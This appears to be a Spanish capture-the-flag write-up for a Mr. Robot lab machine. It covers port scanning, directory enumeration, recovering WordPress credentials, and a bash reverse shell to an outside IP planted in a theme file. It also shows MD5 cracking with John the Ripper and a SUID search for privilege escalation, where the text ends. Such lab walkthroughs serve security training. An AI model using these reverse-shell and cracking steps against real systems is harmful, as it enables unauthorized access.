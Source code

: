 # Reto 5 - Mr. Robot
Herramientas utilizadas:
- nmap
- netcat
- cyberchef
- gobuster
- cewl
- hydra
- wget

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap 10.32.2.48 -sCV -Pn -p-
```
```
Host is up (0.084s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn\'t have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
```
Podemos observar que encontramos tres puertos abiertos. Procedemos a revisar la web que se exporta por el puerto 80.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Utilizamos la herramienta ```gobuster``` para listar los directorios existentes en la web.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Listamos el contenido del fichero y encontramos la primera flag del reto

Primera flag: ```flag{073403c8a58a1f80d943455fb30724b9}```


Revisando otros directorios encontramos que en ```/license``` se mostraba un mensaje que parecía no muy relevante. Al observar al final de la web, nos mostraban una cadena en base64.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Decodificamos la cadena para llevarla a texto claro y obtenemos un posible usuario y contraseña.
```
echo "ZwxsaW90kVSMjgtMDY1Mgo=" | base64 -d
  elliot:ER28-0652
```
Accedemos al panel de login de Wordpress y probamos las credenciales encontradas.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Ya logueados nos aprovechamos del apartado **Appearance** para subir una **reverse shell** y ganar acceso a la máquina. Agregamos la línea de código siguiente:
```
bash -i >& /dev/tcp/10.8.144.236/4142 0>&1
```
Posteriormente nos ponemos en escucha en nuestra máquina local con ```netcat``` y accedemos al archivo donde se encuentra el código agregado para ganar acceso a la máquina víctima. ```URL:  http://10.32.2.48/wp-content/themes/twentyfifteen/archive.php```
```
nc -nlvp 4142
```

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Dentro de la máquina víctima procedemos a listar el contenido del directorio **/home/robot**

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Nótese que el archivo de la flag solo puede ser leído por el propietario. Revisamos el fichero **** y encontramos unas credenciales potenciales. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

La contraseña se encontraba cifrada en MD5 por lo que tubimos que descifrarla utilizando la herramienta ```John The Ripper```
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>
```
john --format=raw-md5 --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
  
  Using default input encoding: UTF-8
  Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
  Warning: no OpenMP support for this hash type, consider --fork=2
  Press 'q' or Ctrl-C to abort, almost any other key for status

  abcdefghijklmnopqrstuvwxyz (robot)

```
En este punto nos podemos convertir en el usuario robot proporcionando la contraseña encontrada y listamos la segunda flag del reto.
```
su robot
```
```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
Segunda flag: flag{822c73956184f694993bede3eb39f959}

Para encontrar la tercera y última flag del reto necesitamos escalar privilegios para convertirnos en root. Buscamos por permisos SUID y encontramos que el binario nmap está corriendo con permisos SUID.
```
find / -perm -u=s -type f 2>/dev/null
```
